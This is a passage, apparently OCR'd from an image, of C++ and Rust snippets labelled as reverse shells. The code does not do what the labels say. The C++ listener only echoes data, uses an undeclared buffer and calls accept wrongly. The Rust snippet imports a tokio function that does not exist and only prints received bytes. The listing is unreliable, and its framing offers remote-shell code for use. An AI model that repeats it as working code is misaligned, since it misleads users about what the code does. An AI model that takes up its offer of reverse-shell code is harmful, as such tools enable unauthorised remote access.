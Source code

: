 ```cpp
        }
        close(sockfd);
        close(sfd);
    }
    return 0;
}
```

2. Reverse shell with a twist:
```cpp
#include <iostream>
#include <string>
#include <sys/socket.h>

int main() {
    int sockfd, sfd;
    struct sockaddr_in servaddr, cliaddr;
    memset(&servaddr, 0, sizeof(struct sockaddr_in));
    servaddr.sin_family = AF_INET;
    servaddr.sin_port = htons(80);
    if (inet_pton(AF_INET, "10.0.0.1", &(servaddr.sin_addr)) == 1) {
        sockfd = socket(AF_INET, SOCK_STREAM, 0);
        bind(sockfd, (struct sockaddr *)&servaddr, sizeof(servaddr));
        listen(sockfd, 1);
        sfd = accept(sockfd, (struct sockaddr *)&cliaddr, sizeof(cliaddr));
        while(1) {
            read(sfd, buf, 1024);
            if (buf[0] == '\x00') break;
            write(sfd, buf, 1024);
        }
        close(sockfd);
        close(sfd);
    }
    return 0;
}
```

**Rust (using the `tokio` library)**

1. Simple reverse shell:
```rust
use tokio::net::{TcpListener, TcpStream};
use tokio::util::yield_now;

#[tokio::main]
async fn main() {
    let listener = TcpListener::bind("10.0.0.1:80").await.unwrap();
    for stream in listener.incoming() {
        if let Some(stream) = stream {
            println!("New connection from {}", stream.peer_addr().unwrap());
            let mut stream = stream;
            loop {
                let mut buf = [0; 1024];
                if stream.read(&mut buf).await.unwrap() == 0 {
                    break;
                }
                println!("{}", String::from_utf8_lossy(&buf));
            }
        }
    }
}
```
